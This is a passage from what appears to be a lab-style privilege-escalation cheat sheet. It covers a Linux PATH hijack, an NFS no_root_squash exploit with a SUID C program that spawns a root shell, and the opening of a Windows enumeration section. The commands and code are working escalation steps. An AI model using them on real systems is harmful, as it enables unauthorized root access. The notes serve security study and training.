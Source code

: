       #to add a folder to PATH
      export PATH=/tmp:$PATH

      #in /tmp
      echo "/bin/bash" > thm

      chmod 777 thm
      ```

  * NFS:

    * Network File Sharing configuration is in the ```/etc/exports``` file. If the ```no_root_squash``` option is present on a writable share, we can create an executable with SUID bit set and run it on target system:

      ```shell
      #check mountable shares on target machine
      showmount -e MACHINE_IP

      #now, on attacker machine
      #mounting one of the "no_root_squash" shares to attacking machine
      mkdir /tmp/backup

      mount -o rw MACHINE_IP:/backups /tmp/backup

      #in the same folder of /tmp/backup, we can create a script
      ```

      ```c
      int main()
      { setuid(0);
        setgid(0);
        system("/bin/bash");
        return 0;
      }
      ```

      ```shell
      gcc nfs_script.c -o nfs -w

      chmod +s nfs
      #as we worked on mountable share, we do not need to transfer

      #in target system
      ./nfs #gives root access
      ```

### Windows Privilege Escalation

* Information Gathering:

  * User Enumeration:

    ```shell
    whoami #current user

    whoami /prev #current user privileges
